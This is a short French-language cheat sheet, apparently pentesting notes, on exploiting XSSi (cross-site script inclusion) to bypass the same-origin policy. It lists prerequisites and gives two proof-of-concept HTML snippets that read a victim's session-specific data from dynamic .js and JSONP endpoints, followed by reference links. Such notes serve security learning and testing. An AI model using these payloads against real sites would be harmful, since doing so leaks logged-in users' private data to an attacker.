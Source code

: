 # XSSi

> Tips pour l'exploitation de XSSi
>
> Faille permettant de bypass la protection SOP (évite qu'un attaquant puisse récupérer des informations d'un **autre site** avec les droits de l'utilisateur connecté)
>
> Objectifs : récupérer du contenu dynamique (une page), propre à un utilisateur (et donc, contenant des secrets propres à sa session)



**Prérequis :**

- Pas d'headers CORS : `Authorization, X-API-KEY, X-CSRF-TOKEN, X-whatever`
- Pas d'header `X-Content-Type-Options : nosniff`



**Cible :**

- fichiers `.js` contenant des informations dynamiques :

  ```javascript
  <script src="https://www.vulnerable-domain.tld/script.js"></script>
  <script> alert(JSON.stringify(confidential_keys[0])); </script>
  ```

- fichiers `.json` contenant des informations dynamiques (pour ce type de fichiers, il faut trouver un paramètre **jsonp** de callback) :

  ```javascript
  <script>
        leak = function (leaked) {
  	  alert(JSON.stringify(leaked));
        };  
  </script>
  <script src="https://site.tld/p?jsonp=leak" type="text/javascript"></script>
  ```



### Ressources

- https://www.scip.ch/en/?labs.20160414
- https://www.sjoerdlangkemper.nl/2019/01/02/jsonp/
- https://www.dailysecurity.fr/xssi-sop-bypass/
- https://www.mbsd.jp/Whitepaper/xssi.pdf
- https://book.hacktricks.xyz/pentesting-web/xssi-cross-site-script-inclusion
- Extension BURP pour détecter du javascript généré dynamiquement : https://github.com/luh2/DetectDynamicJS